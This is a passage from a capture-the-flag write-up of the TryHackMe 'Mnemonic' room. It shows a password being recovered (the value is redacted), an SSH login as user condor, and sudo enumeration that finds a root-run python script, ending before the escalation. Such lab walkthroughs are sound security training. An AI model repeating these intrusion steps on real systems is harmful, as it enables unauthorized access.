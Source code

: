 Then, we can decrypt it via the `6450.txt`!

```
>>>>2
ENCRYPT Message to file Path'

Please enter the file Path:/root/ctf/thm/ctf/Mnemonic/6540.txt

{Redacted}
```

We found `condor`'s password!

**Let's SSH into `condor`:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Mnemonic]
└─# ssh condor@$RHOSTS -p 1337
condor@10.10.198.208's password: 
[...]
condor@mnemonic:~$ whoami;hostname;id;ip a
condor
mnemonic
uid=1002(condor) gid=1002(condor) groups=1002(condor)
[...]
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:67:45:4c:06:db brd ff:ff:ff:ff:ff:ff
    inet 10.10.198.208/16 brd 10.10.255.255 scope global dynamic eth0
       valid_lft 3394sec preferred_lft 3394sec
    inet6 fe80::67:45ff:fe4c:6db/64 scope link 
       valid_lft forever preferred_lft forever

condor@mnemonic:~$ which $SHELL
/bin/bash
```

## condor to root

**Sudo permission:**
```
condor@mnemonic:~$ sudo -l
[sudo] password for condor: 
Matching Defaults entries for condor on mnemonic:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User condor may run the following commands on mnemonic:
    (ALL : ALL) /usr/bin/python3 /bin/examplecode.py
```

User `condor` can run `python3 /bin/examplecode.py` as root!

```
condor@mnemonic:~$ ls -lah /bin/examplecode.py 
-rw-r--r-- 1 root root 2.3K Jul 15  2020 /bin/examplecode.py
```
